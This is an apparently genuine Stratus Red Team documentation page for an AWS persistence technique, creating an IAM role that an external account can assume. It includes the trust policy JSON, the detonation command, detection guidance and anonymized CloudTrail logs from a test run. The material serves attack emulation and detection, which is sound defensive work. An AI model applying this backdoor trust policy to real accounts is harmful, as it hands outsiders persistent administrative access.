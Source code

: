 ```yaml
---
title: Create a backdoored IAM Role
---
```


# Create a backdoored IAM Role




Platform: AWS

## MITRE ATT&CK Tactics


- Persistence

## Description


Establishes persistence by creating a new backdoor role with a trust policy allowing it to be assumed from 
an external, fictitious attack AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: None.

<span style="font-variant: small-caps;">Detonation</span>: 

- Create a new IAM role with the following trust policy:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

- Attach the 'AdministratorAccess' managed IAM policy to it. 

*Note: For safety reasons, the detonation code makes sure that this role has no real effective permissions, by attaching a permissions boundary denying all actions. This could also be achieved with an inline role policy, but using a permissions boundary allows us to use a single API call (CreateRole).*

References:

- https://www.invictus-ir.com/news/the-curious-case-of-dangerdev-protonmail-me


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.iam-create-backdoor-role
```
## Detection


- Through [IAM Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-iam-role), 
which generates a finding when a role can be assumed from a new AWS account or publicly.

- Identify a call to <code>CreateRole</code> closely followed by <code>AttachRolePolicy</code> with an administrator policy.

- Identify a call to <code>CreateRole</code> that contains an assumeRolePolicyDocument in the requestParameters that allows access from an external AWS account. Sample event:

```
{
  "eventSource": "iam.amazonaws.com",
  "eventName": "CreateRole",
  "requestParameters": {
	"roleName": "malicious-iam-role",
	"assumeRolePolicyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"Service\": \"ec2.amazonaws.com\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    },\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}"
   }
}
```



## Detonation logs <span class="smallcaps w3-badge w3-light-green w3-round w3-text-sand">new!</span>

The following CloudTrail events are generated when this technique is detonated[^1]:


- `iam:CreateRole`

- `iam:AttachRolePolicy`


??? "View raw detonation logs"

    ```json hl_lines="6 40"

    [
	   {
	      "awsRegion": "sagov-west-2r",
	      "eventCategory": "Management",
	      "eventID": "39480357-0a1d-4531-a3f2-71be4c041c25",
	      "eventName": "AttachRolePolicy",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:37:41Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "609418236337",
	      "requestID": "09b3fc1c-c0c0-4e86-9bad-e0928a089e0d",
	      "requestParameters": {
	         "policyArn": "arn:aws:iam::aws:policy/AdministratorAccess",
	         "roleName": "stratus-red-team-malicious-iam-role"
	      },
	      "responseElements": null,
	      "sourceIPAddress": "209.209.254.254",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_e2808a95-acc5-4508-b083-d31d6f4315d9",
	      "userIdentity": {
	         "accessKeyId": "AKIA0W5KI69TY8X86BGT",
	         "accountId": "609418236337",
	         "arn": "arn:aws:iam::609418236337:user/christophe",
	         "principalId": "AIDAK4TRC24VBN0JX8JX",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   },
	   {
	      "awsRegion": "sagov-west-2r",
	      "eventCategory": "Management",
	      "eventID": "d2905ac3-9898-433f-b10d-9302abe4e208",
	      "eventName": "CreateRole",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:37:41Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "609418236337",
	      "requestID": "105d4d57-6f6d-43ce-b6a4-5b67c68b4ab5",
	      "requestParameters": {
	         "assumeRolePolicyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}",
	         "permissionsBoundary": "arn:aws:iam::aws:policy/AWSDenyAll",
	         "roleName": "stratus-red-team-malicious-iam-role"
	      },
	      "responseElements": {
	         "role": {
	            "arn": "arn:aws:iam::609418236337:role/stratus-red-team-malicious-iam-role",
	            "assumeRolePolicyDocument": "%7B%0A%20%20%22Version%22%3A%20%222012-10-17%22%2C%0A%20%20%22Statement%22%3A%20%5B%0A%20%20%20%20%7B%0A%20%20%20%20%20%20%22Effect%22%3A%20%22Allow%22%2C%0A%20%20%20%20%20%20%22Principal%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22AWS%22%3A%20%22arn%3Aaws%3Aiam%3A%3A193672423079%3Aroot%22%0A%20%20%20%20%20%20%7D%2C%0A%20%20%20%20%20%20%22Action%22%3A%20%22sts%3AAssumeRole%22%0A%20%20%20%20%7D%0A%20%20%5D%0A%7D",
	            "createDate": "Aug 1, 2024 1:37:41 PM",
	            "path": "/",
	            "permissionsBoundary": {
	               "permissionsBoundaryArn": "arn:aws:iam::aws:policy/AWSDenyAll",
	               "permissionsBoundaryType": "Policy"
	            },
	            "roleId": "AROA53G8Z8NGXMJ597G3E",
	            "roleName": "stratus-red-team-malicious-iam-role"
	         }
	      },
	      "sourceIPAddress": "209.209.254.254",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_e2808a95-acc5-4508-b083-d31d6f4315d9",
	      "userIdentity": {
	         "accessKeyId": "AKIA0W5KI69TY8X86BGT",
	         "accountId": "609418236337",
	         "arn": "arn:aws:iam::609418236337:user/christophe",
	         "principalId": "AIDAK4TRC24VBN0JX8JX",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   }
	]
    ```

[^1]: These logs have been gathered from a real detonation of this technique in a test environment using [Grimoire](https://github.com/DataDog/grimoire), and anonymized using [LogLicker](https://github.com/Permiso-io-tools/LogLicker).

